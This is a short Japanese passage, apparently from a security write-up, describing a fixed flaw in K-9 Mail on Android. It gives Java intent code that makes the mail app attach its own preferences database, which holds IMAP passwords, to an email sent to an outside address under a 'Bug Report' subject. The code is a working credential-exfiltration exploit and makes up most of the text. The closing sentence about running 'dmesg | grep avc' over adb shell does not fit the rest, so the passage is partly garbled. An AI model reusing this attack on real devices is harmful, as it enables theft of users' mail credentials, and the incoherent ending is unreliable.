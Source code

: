 
この例は、K-9 MailのIMAPパスワードを不正に共有することを意図しています。
攻撃者と K-9メールは例としてのみ提供されていますが、
この問題は、現在のリリースで修正されており、より多くのアプリケーションに存在しています。

この攻撃を実行するために必要なコードは次のとおりです。

    Intent i = new Intent();
    i.setComponent(new ComponentName("com.fsck.k9", "com.fsck.k9.activity.MessageCompose"));
    i.setAction(Intent.ACTION_SEND); i.setType("text/plain");
    Uri uri = Uri.parse("file:///data/data/com.fsck.k9/databases/preferences_storage");
    i.putExtra(Intent.EXTRA_STREAM, uri);
    i.putExtra(Intent.EXTRA_TEXT, "Hello World");
    i.putExtra(Intent.EXTRA_EMAIL, new String[]{"support@company.com"});
    i.putExtra(Intent.EXTRA_TEXT, "Dear support team,...");
    i.putExtra(Intent.EXTRA_SUBJECT, "Bug Report");

これは、 `adbシェル`を介してAndroidデバイスに接続し、 `dmesg | grep avc`を実行します。
